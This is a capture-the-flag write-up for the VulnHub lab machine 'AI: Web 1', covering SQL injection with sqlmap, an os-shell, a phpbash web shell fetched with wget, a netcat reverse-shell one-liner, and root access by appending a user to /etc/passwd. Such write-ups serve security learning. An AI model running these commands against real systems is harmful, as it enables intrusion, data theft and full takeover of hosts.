<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/ai-web-1,353/">AI: Web</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/@arif_xpress">  Mohammad Ariful Islam</a></h4>

## Nmap



There is only single port open and that too have some hidden directories. Let's see what else we can find from HTTP service.

***

## HTTP

When we visit the website we get a message `Not even Google search my contents!`


That message is reference to `robots.txt` because that is the file use to allow or disallow google from scraping.

In `robots.txt` we have 2 entries `/m3diNf0/`, `/se3reTdir777/uploads/`.



But When I tried visiting `/m3diNf0/` or `/se3reTdir777/uploads/` I got `403` Forbidden error, meaning I cannot view the content of those page.
I ran dirsearch on `/m3diNf0/` and found `info.php`



If we open that `info.php` it contains simple information about the system.
But when I opened the `http://192.168.184.135/se3reTdir777/` I got a very basic form asking me about `UserID`.



I started to submit id as `1,2,3...`







When I submitted UserId as `4` I got error.



***

## sqlmap

I tested this field for SQLi with `sqlmap`. I captured the requests and saved it in a file named `sql.txt` and then passed that file to sqlmap.

* `➜ sqlmap -r /home/mzfr/sql.txt --dbs`



* `➜ sqlmap -r /home/mzfr/sql.txt -D aiweb1 --tables`



* `➜ sqlmap -r /home/mzfr/sql.txt -D aiweb1 --dump`



Since all the hashes are just base64 encoded so I decoded them and only one of them was legit.



`aiweb1pwn:MyEvilPass_f908sdaf9_sadfasf0sa`

but since there is no service to login we can't use this.

I found out that we can use `--os-shell` with sqlmap to get the shell.

I ran
`sqlmap -r /home/mzfr/sql.txt -D aiweb1 --os-shell` and then selected following options:



I figured out that custom path from the `info.php` we found in the starting.



And with that I got the shell.



From this I uploaded a `phpbash` shell using `wget`



Now we can visit `se3reTdir777/uploads/phpbash.php` and we'll have a phpbash shell.



So Now from this shell I ran

```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.184.1 4444 >/tmp/f
```



***

## Privilege escalation

I downloaded the enumeration script and ran it and I found out that there are two users `aiweb1` and `aiweb1pwn`



I ran `find / -user www-data -type f 2>/dev/null` and found that `www-data` can edit `/etc/passwd` which is nice.

I ran `echo "toor:sXuCKi7k3Xh/s:0:0::/root:/bin/bash" >> /etc/passwd` this will add a new user named `toor` with  password `toor` having `root` access.

Then I `su` to toor and got the root-shell.



now get the flag from the root directory.



***

This was an awesome machine with something new for me. I didn't knew that we can use sqlmap for getting a shell.

Thanks to [@arif_xpress](https://twitter.com/@arif_xpress) for making this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
